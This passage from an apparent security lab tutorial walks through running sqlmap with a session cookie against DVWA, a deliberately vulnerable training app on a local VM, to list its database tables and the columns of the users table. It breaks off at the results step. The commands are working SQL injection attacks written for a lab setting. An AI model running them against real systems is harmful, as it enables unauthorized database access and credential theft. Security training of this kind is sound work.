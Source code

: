    * **Notes\(FYI\):**  
     1. Notice that sqlmap supplies a list of available databases.

   * ![](http://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson7/index.99.jpg)

| **Section 13: Obtain "dvwa" tables and contents** |
| :--- |


1. Obtain "dvwa" tables and contents

   * **Notes\(FYI\):**
     1. Obtain the referer link from \(Section 9, Step 10\), which is placed after the "-u" flag below.
     2. Obtain the cookie line from \(Section 9, Step 10\), which is placed after the "--cookie" flag below.
     3. Replace 192.168.1.106 with Fedora's IP address obtained in \(Section 3, Step 3\).
     4. Replace \( **lpb5g4uss9kp70p8jccjeks621**\) with your PHPSESSID obtained from \(Section 9, Step 10\).
   * **Instructions:**  
     1. ./sqlmap.py -u "http:// 192.168.1.106 /dvwa/vulnerabilities/sqli/?id=1 & Submit=Submit" --cookie="PHPSESSID= **lpb5g4uss9kp70p8jccjeks621 **; security=low" -D dvwa --tables

     * -u, Target URL
     * --cookie, HTTP Cookie header
     * -D, Specify Database
     * --tables, List Database Tables

   * ![](http://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson7/index.91.jpg)

2. Viewing "dvwa" tables and content results

   * **Notes\(FYI\):**  
     1. Notice sqlmap listed two tables: guestbook and users.

   * ![](http://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson7/index.92.jpg)

3. Obtain columns for table dvwa.users

   * **Notes\(FYI\):**
     1. Obtain the referer link from \(Section 9, Step 10\), which is placed after the "-u" flag below.
     2. Obtain the cookie line from \(Section 9, Step 10\), which is placed after the "--cookie" flag below.
     3. Replace 192.168.1.106 with Fedora's IP address obtained in \(Section 3, Step 3\).
     4. Replace \( **lpb5g4uss9kp70p8jccjeks621 **\) with your PHPSESSID obtained from \(Section 9, Step 10\).
   * **Instructions:**  
     1. ./sqlmap.py -u "http:// 192.168.1.106 /dvwa/vulnerabilities/sqli/?id=1 & Submit=Submit" --cookie="PHPSESSID= **lpb5g4uss9kp70p8jccjeks621 **; security=low" -D dvwa -T users --columns

     * -u, Target URL
     * --cookie, HTTP Cookie header
     * -D, Specify Database
     * -T, Specify the Database Table
     * --columns, List the Columns of the Database Table.

   * ![](http://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson7/index.93.jpg)

4. Viewing Results: columns for table dvwa.users
